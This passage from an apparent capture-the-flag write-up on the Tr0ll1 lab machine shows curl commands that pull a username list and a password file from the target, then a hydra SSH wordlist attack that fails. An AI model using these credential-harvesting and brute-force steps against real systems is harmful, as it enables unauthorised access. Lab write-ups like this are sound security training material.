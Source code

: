 Inside the **good_look** directory ther is a file with a list of words, these look like usernames.

![](/assets/images/tr0ll1/screenshot-4.png)

We download the usernames and save them to a file.

```bash
root@kali:~$ curl -s http://192.168.179.182/0x0856BF/good_luck/which_one_lol.txt | awk '{print $1}' | tee users.txt 
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Inside the folder **this_folder_contains_the_password** there is a file called **Pass.txt**.

![](/assets/images/tr0ll1/screenshot-5.png)

We download the possible password.

```bash
root@kali:~$ curl -s http://192.168.179.182/0x0856BF/this_folder_contains_the_password/Pass.txt | tee pass.txt     
Good_job_:)
```

We performed a wordlist attack with hydra but the password doesn't work.

```bash
root@kali:~$ hydra -L users.txt -P pass.txt ssh://192.168.179.182
...
1 of 1 target completed, 0 valid password found
...
```
